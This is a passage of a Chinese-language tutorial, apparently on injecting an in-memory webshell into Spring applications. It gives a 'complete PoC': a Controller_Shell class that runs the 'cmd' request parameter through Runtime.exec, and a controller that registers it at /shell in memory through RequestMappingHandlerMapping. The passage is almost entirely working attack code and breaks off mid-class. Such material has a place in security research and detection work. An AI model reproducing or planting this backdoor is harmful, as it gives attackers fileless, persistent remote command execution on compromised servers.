 这里由于我们时动态注册`Controller`，所以我们只需要实现对应的恶意方法即可

```java
public class Controller_Shell{
 
        public Controller_Shell(){}
 
        public void shell() throws IOException {
 
            //获取request
            HttpServletRequest request = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getRequest();
            Runtime.getRuntime().exec(request.getParameter("cmd"));
        }
    }
```

### 5.2.10、完整POC

```java
package com.controller;

import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.context.request.ServletRequestAttributes;
import org.springframework.web.servlet.mvc.condition.PatternsRequestCondition;
import org.springframework.web.servlet.mvc.condition.RequestMethodsRequestCondition;
import org.springframework.web.servlet.mvc.method.RequestMappingInfo;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;

import javax.servlet.http.HttpServletRequest;
import java.io.IOException;
import java.lang.reflect.Method;

@Controller
public class shell_controller {

    //@ResponseBody
    @RequestMapping("/control")
    public void Spring_Controller() throws ClassNotFoundException, InstantiationException, IllegalAccessException, NoSuchMethodException {

        //获取当前上下文环境
        WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);

        //手动注册Controller
        // 1. 从当前上下文环境中获得 RequestMappingHandlerMapping 的实例 bean
        RequestMappingHandlerMapping r = context.getBean(RequestMappingHandlerMapping.class);
        // 2. 通过反射获得自定义 controller 中唯一的 Method 对象
        Method method = Controller_Shell.class.getDeclaredMethod("shell");
        // 3. 定义访问 controller 的 URL 地址
        PatternsRequestCondition url = new PatternsRequestCondition("/shell");
        // 4. 定义允许访问 controller 的 HTTP 方法（GET/POST）
        RequestMethodsRequestCondition ms = new RequestMethodsRequestCondition();
        // 5. 在内存中动态注册 controller
        RequestMappingInfo info = new RequestMappingInfo(url, ms, null, null, null, null, null);
        r.registerMapping(info, new Controller_Shell(), method);

    }

    public class Controller_Shell{

```